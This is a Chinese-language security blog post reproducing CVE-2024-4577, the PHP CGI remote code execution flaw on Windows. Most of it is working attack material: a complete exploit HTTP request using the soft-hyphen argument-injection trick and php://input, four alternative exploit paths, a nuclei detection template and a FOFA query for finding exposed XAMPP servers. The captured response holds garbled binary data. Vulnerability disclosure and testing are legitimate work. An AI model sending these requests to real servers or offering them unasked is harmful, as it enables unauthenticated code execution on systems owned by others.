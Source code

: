 #  CVE-2024-4577 漏洞复现   
原创 fgz  AI与网安   2024-06-12 15:35  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
PHP CGI Windows平台远程代码执行漏洞  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
影响范围  
  
      
PHP 8.3 < 8.3.8  
  
      
PHP 8.2 < 8.2.20  
  
      
PHP 8.1 < 8.1.29  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
PHP 在设计时忽略 Windows 中对字符转换的Best-Fit 特性，当PHP运行在Window平台且使用了如下语系（简体中文936/繁体中文950/日文932等）时，攻击者可构造恶意请求绕过CVE-2012-1823 保护，从而可在无需登陆的情况下执行任意PHP代码。  
  
2024年6月6日，PHP官方发布新版本正式修复该漏洞，漏洞利用较为简单且危害较大，建议尽快采取措施升级或者进行缓解。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
header="Xampps_info" || body="/xampps.jpg" || (header="location http" && header="xampp") || body="content=\"Kai Oswald Seidler" || title="XAMPP for" || title="XAMPP Version" || body="font-size: 1.2em; color: red;\">New XAMPP"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNkka6InbJSyyepCibUDBEa7olvK3pRaht4XliaTULJfJxib381uQIpHFiazEQ4opibA60TRDibIzbsVMSg/640?wx_fmt=png&from=appmsg "")  
  
  
05  
  
—  
  
漏洞复现  
  
  
向靶场发送如下数据包  
```
POST /php-cgi/php-cgi.exe?%ADd+cgi.force_redirect%3d0+%ADd+cgi.redirect_status_env+%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36 Edg/109.0.1518.69
Connection: close
Content-Length: 37
Accept: */*
Accept-Language: en
Accept-Encoding: gzip

<?php echo md5("CVE-2024-4577"); ?>
```  
  
响应内容如下，包含了  
md5(  
"CVE-2024-4577"  
)的计算结果  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNkka6InbJSyyepCibUDBEa76NicD79UMKMz1ReGEvZ8QMpM4n6uY9dR1SeicA1f4jMD9gCeOI7DTCkw/640?wx_fmt=png&from=appmsg "")  
  
```
HTTP/1.1 200 OK
Connection: close
Content-Type: text/html
Date: Wed, 12 Jun 2024 07:28:45 GMT
Server: Apache/2.4.37 (Win32) OpenSSL/1.0.2p PHP/5.4.19
Vary: Accept-Encoding
X-Powered-By: PHP/5.4.19

3f2ba4ab3b260f4c2dc61a6fac7c3e8aMZ����@��   �!�L�!This program cannot be run in DOS mode.
$bN�&/j�&/j�&/j��`��//j�/W��"/j�/W��0/j�/W��$/j��� /j�/W��#/j�&/k��/j�/W��$/j�8}��'/j�/W��'/j�Rich&/j�PEL8R�
       nN�u�@���@����x�@�@
��`�@�d.text�ln `.rdata�-�.r@@.data���@�.rsrc@��@@.reloc$
��@BV�t�FP���@�N��^�L$�%@�@�D$�HQht�@���@�3��������̋L�  ��D$��J��BQP���@��������������U��������jjj�D$
������u�3��������������̃����@P�L$Q���@V�T$�@����]����̋D$Qht�@���@�3���������̋D��D$��:u��t�A:Bu
h@R�D$$�\�@Vj�D$h�@P�L�@�L$$Q�<�@��D�̋DSUVW�|$�؅�vO�-�@�������@r�@�0�@�� PVjW�Ճ���t�+�uԋD$_^][��P�@�D$+�_^][����������̡��@�T$
��L��S�U�l$VW�|$����vVWj���Z��
|�@�D���xS�T�@u���L���y1�q|�T���l$�D$�t$����(�@�����u�%P�@��V�t��tj�@X����u^�%P�@^Á���@3ĉ�$�
�y|����8tm������taPhx�@�L$(hQ��@���@�����T�����j P�,�@����t@P�$�@���D$���>��4�
�����txj P�,�@�����tb���@���T�������+ȃ�|Ejh��@P���@��
��u0Uh��@�T$(hR��@EU���$�@�l$(���D$���l$�D$PU�Ԃ@���t6�5��@�xvjh��@Q�փ�
�����T$RU� �@���uЋ��@��7�T���R|��@�d;�t
����u��I��tQRh��@�D$,hP��@���Rh��@�L$(hQ��@����W�T$$VR�Ӄ�
�d$�F��ty��v,�jh��@Q���@��
��u8D$uW�V�WR�D$RP�!�N�WQR��Wjh��@�Ӄ��L$�D$PQ� �@������c���Wjh��@�Ӄ�
[��$_^]3̸�[]����������̡��@�T$
��L����P+��VW�|$3�;�r
�ȋy+����v-S�\$U�-x�@��+�P�
Qj�Ճ�
��~�;�r�][_��^�_��^��������U�����Q���@�U��L����P+��S�]
V�0W3�;�r
�ȋY+����v����+�P�R��L���~�;�r���_^[��]���������̋D$P���@���̡��@�T$
��L���V�t��t@�D$
��W}����|��L��
��~ύ
��|$WPQ��@ ���;��
_��u
��@��D$P�D�T�����U�lVW��t�ÍP@��u�+��3��L$�W�<�@������tDO��t'SUhЎ@WV��@V�t�@��U���@��_^]�Uh؎@WV��@V�t�@��U���@��_^]�����������D$܎@�%��@�̋
j
h���@ �܎@�0:��
��@P�D$$PWR����҃���t�D$$�L$VSPQW���@��_^[������̡@�@SU�-�@V�t$W�|$��D��������tu;�tq��8X
uj�P�Ճ���~^�8^
v
@�@��L��������H�N���@
�F
8^�F
@�@���D�������tq;�tm��8X
ufQ�Ճ���~Z�8^
v
V���@����@�@��T�������P�V���P
�V
8^�F
vQV�`�@��_^][�WV�x�@��=��@u�9����@��t���@��D���h@����W��_^][á�@��
V�t$W�|$WV�ы�|�@�L����y�r���@�
��@��D$P��L���u��8���j@;�t1� h���@ ���@��7��
�h��@���@����;�tm�P@��u�+���tK�ÍP@��u�+��>�D$@P�|�@�VRSP�D$ �C`�D$ GW�UP�4`�|$@����=�|$�|$$�l$3��-;�t�É\$�P��I@��u�+D$�
��@R����D$Ph��@j�҃�][��t�D$�L$
�TWPQRh��@���@�������DP�T�@��_^��
��@��D���@(��u���@�D�P@��u�W+L$QP�T$R�D$���@���h��@j�у���t�T$
�DWVRPh��@���@��_^��
��@��D��S���tOU�l$���@�����D��
V��W�P@��u�+��NQ�<�@V��UW��^�
f�7FVWj����OW�@�@�� _^][ËDPht�@�0�@��@P�
�@��
[ËL$Qht�@�0�@��@P�
```  
  
  
漏洞复现成功  
  
  
POC路径有多个  
```
/php-cgi/php-cgi.exe?%ADd+cgi.force_redirect%3d0+%ADd+cgi.redirect_status_env+%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input
/index.php?%ADd+cgi.force_redirect%3d0+%ADd+cgi.redirect_status_env+%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input
/test.php?%ADd+cgi.force_redirect%3d0+%ADd+cgi.redirect_status_env+%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input
/test.hello?%ADd+cgi.force_redirect%3d0+%ADd+cgi.redirect_status_env+%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input
```  
  
  
  
  
06  
  
—  
  
nuclei poc  
  
  
nuclei 官方已发布poc，poc文件内容如下  
```
id: CVE-2024-4577

info:
  name: PHP CGI - Argument Injection
  author: Hüseyin TINTAŞ,sw0rk17,securityforeveryone,pdresearch
  severity: critical
  description: |
    PHP CGI - Argument Injection (CVE-2024-4577) is a critical argument injection flaw in PHP.
  impact: |
    Successful exploitation could lead to remote code execution on the affected system.
  remediation: |
    Apply the vendor-supplied patches or upgrade to a non-vulnerable version.
  metadata:
    verified: true
  tags: cve,cve2024,php,cgi,rce

http:
  - method: POST
    path:
      - "{{BaseURL}}/php-cgi/php-cgi.exe?%ADd+cgi.force_redirect%3d0+%ADd+cgi.redirect_status_env+%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input"
      - "{{BaseURL}}/index.php?%ADd+cgi.force_redirect%3d0+%ADd+cgi.redirect_status_env+%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input"
      - "{{BaseURL}}/test.php?%ADd+cgi.force_redirect%3d0+%ADd+cgi.redirect_status_env+%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input"
      - "{{BaseURL}}/test.hello?%ADd+cgi.force_redirect%3d0+%ADd+cgi.redirect_status_env+%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input"

    body: |
      <?php echo md5("CVE-2024-4577"); ?>

    stop-at-first-match: true
    matchers:
      - type: word
        part: body
        words:
          - "3f2ba4ab3b260f4c2dc61a6fac7c3e8a"
# digest: 4a0a004730450221008693eaa1040ef5b904550b0ec8d707667e4de37c2f03bcfb4cb631137ed90caf02203b9468a518628678b56886433cd50d65153bb54d66ac540ef0b535407471c01c:922c64590222798bb761d5b6d8e72950
```  
  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
  
  
  
